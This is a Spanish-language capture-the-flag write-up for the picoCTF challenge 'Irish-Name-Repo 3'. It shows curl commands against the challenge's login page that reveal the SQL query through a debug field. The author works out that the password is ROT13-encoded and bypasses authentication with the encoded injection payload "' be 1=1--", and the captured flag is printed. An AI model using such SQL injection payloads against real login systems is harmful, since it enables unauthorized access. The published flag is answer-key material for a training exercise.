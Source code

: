 ## Irish-Name-Repo 3
## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Hints
1. Seems like the password is encrypted.
## Datos de acceso al nivel
## Solución
El sitio web ofrecía una página de inicio de sesión de administrador:

```bash
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

Usando la interfaz de depuración, podemos inspeccionar la consulta SQL:

```bash
┌──(kali㉿kali)-[~/SEGURIDAD7A]
 curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=test&debug=1"
<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
</pre><h1>Login failed.</h1>
```

La contraseña estaba encriptada de alguna manera. Dado el hecho de que se reemplazó por dos veces, esto podría ser un cifrado de sustitución.`t` `g` 

Con inyección simple:

```bash
┌──(kali㉿kali)-[~/SEGURIDAD7A]
 curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>

┌──(kali㉿kali)-[~/SEGURIDAD7A]curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' be 1=1--&debug=1" && echo
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>
```

## Notas adicionales
## Referencias
